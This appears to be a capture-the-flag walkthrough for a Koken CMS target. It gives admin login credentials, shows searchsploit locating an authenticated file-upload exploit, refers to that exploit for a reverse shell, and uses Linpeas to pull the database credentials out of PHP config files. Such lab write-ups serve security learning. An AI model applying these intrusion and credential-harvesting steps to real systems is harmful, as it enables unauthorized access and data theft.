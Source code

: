 **Login to the koken /admin page using the following credentials:**

>**[daisa@photographer.com](mailto:daisa@photographer.com):babygirl**

**Use [[Searchsploit]] to find a koken exploit affecting the specific version of koken on the target:**

```bash
─$ searchsploit koken       
---------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                            |  Path
---------------------------------------------------------------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                                                 | php/webapps/48706.txt
---------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                            
┌──(vagrant㉿kali)-[~/Downloads]
└─$ searchsploit -x 48706
  Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
      URL: https://www.exploit-db.com/exploits/48706
     Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
```

**Follow the [instructions in the exploit](https://www.exploit-db.com/exploits/48706?ref=rootandbeer.com) to get a [[Reverse Shell]].**

**Run [[Linpeas]] to find the local mysql database user password:**

```bash
╔══════════╣ Searching passwords in config PHP files

/var/www/html/koken/app/application/config/database.php:$db['default']['password'] = $db_config['password'];                                

/var/www/html/koken/storage/configuration/database.php:         'password' => 'user_password_here',
```

**View the database username/password in `/var/www/html/koken/storage/configuration/database.php`**

```bash
<?php
	return array(
		'hostname' => 'localhost',
		'database' => 'koken',
		'username' => 'kokenuser',
		'password' => 'user_password_here',
		'prefix' => 'koken_',
		'socket' => ''
	);
```
